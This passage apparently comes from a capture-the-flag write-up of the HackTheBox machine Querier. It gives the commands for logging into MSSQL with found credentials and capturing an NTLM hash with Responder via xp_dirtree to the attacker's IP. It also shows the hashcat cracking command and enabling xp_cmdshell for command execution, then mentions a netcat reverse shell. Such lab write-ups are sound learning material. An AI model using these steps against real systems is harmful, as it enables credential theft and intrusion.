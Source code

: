 ```bash
mssqlclient.py 'reporting:PcwTWTHRwryjc$c6'@10.10.10.125 -db volume -windows-auth
``` 

From there I did some enumeration like looking at the tables and databases but didn't get much.

```bash
SQL> SELECT name FROM master.dbo.sysdatabases;
name                                                                                                    
--------------------------------------------------------------------------------------------------------------------------------
master                                                                                                  
tempdb                                                                                                  
model                                                                                                   
msdb                                                                                                    
volume 
```

Consulting [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server) and 0xdf's [walkthrough](https://0xdf.gitlab.io/2019/06/22/htb-querier.html) I learned about capturing hashes with responder from MSSQL.

```bash
sudo responder -I tun0
xp_dirtree '\\10.10.14.26\share\thing
```

Now we have the hash of mssql-svc and can try to crack it.

```bash
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt -O --force
```

Now we have a password of a higher level user within MSSQL and can log back in and get command execution.

```
mssqlclient.py mssql:'corporate568 '@10.10.10.125 -windows-auth
```

We can leverage the xp_cmdshell function in the SQL prompt to execute commands but it needs to be enabled first.

```cmd
sp_configure 'show advanced options', '1'
RECONFIGURE

sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

After this, AV was not taking very kindly to my reverse shell attempts so I had to learn a different way. We can host netcat off of an smb share and execute it from there.
